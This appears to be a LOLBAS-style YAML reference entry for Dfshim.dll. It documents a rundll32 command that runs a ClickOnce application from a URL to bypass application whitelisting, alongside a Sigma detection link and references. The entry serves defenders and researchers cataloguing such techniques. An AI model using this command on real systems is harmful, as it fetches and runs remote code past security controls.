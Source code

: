 ```yaml
---
Name: Dfshim.dll
Description: ClickOnce engine in Windows used by .NET
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: rundll32.exe dfshim.dll,ShOpenVerbApplication http://www.domain.com/application/?param1=foo
    Description: Executes click-once-application from Url (trampoline for Dfsvc.exe, DotNet ClickOnce host)
    Usecase: Use binary to bypass Application whitelisting
    Category: AWL Bypass
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\Microsoft.NET\Framework\v2.0.50727\Dfsvc.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v2.0.50727\Dfsvc.exe
  - Path: C:\Windows\Microsoft.NET\Framework\v4.0.30319\Dfsvc.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Dfsvc.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_susp_rundll32_activity.yml
Resources:
  - Link: https://github.com/api0cradle/ShmooCon-2015/blob/master/ShmooCon-2015-Simple-WLEvasion.pdf
  - Link: https://stackoverflow.com/questions/13312273/clickonce-runtime-dfsvc-exe
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
---
```

